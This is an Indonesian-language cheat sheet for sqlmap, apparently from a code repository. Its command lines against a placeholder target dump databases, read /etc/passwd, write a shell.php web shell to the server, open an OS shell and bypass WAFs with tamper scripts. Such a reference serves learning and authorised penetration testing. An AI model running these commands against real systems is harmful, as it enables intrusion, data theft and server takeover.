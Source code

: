 # SQLMap Cheatsheet

## 1. Basic Usage

### 1.1. Menentukan Target

```bash
sqlmap -u "http://target.com/vuln.php?id=1"
```

### 1.2. Menentukan Parameter POST

```bash
sqlmap -u "http://target.com/vuln.php" --data="id=1"
```

### 1.3. Menentukan Cookie

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --cookie="PHPSESSID=xxxx"
```

### 1.4. Menampilkan Database

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --dbs
```

### 1.5. Menampilkan Tables pada Database

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D nama_database --tables
```

### 1.6. Menampilkan Columns pada Table

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D nama_database -T nama_tabel --columns
```

### 1.7. Dump Data dari Table

```bash
sqlmap -u "http://target.com/vuln.php?id=1" -D nama_database -T nama_tabel --dump
```

## 2. Advanced Usage

### 2.1. Membaca File dari Server

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --file-read="/etc/passwd"
```

### 2.2. Menulis File ke Server

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --file-write="localfile.txt" --file-dest="/var/www/html/shell.php"
```

### 2.3. Mendapatkan Reverse Shell

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --os-shell
```

### 2.4. Bypass WAF dengan --tamper

- Lihat daftar tamper script:
  ```bash
  sqlmap --list-tampers
  ```
- Contoh penggunaan tamper:
  ```bash
  sqlmap -u "http://target.com/vuln.php?id=1" --tamper="between,randomcase"
  ```

## 3. Tips Tambahan

- Gunakan `--batch` untuk auto-yes semua prompt.
- Gunakan `--threads=10` untuk mempercepat proses.
- Gunakan `--risk=3 --level=5` untuk pengujian lebih dalam.

---

Referensi: [https://sqlmap.org/](https://sqlmap.org/)
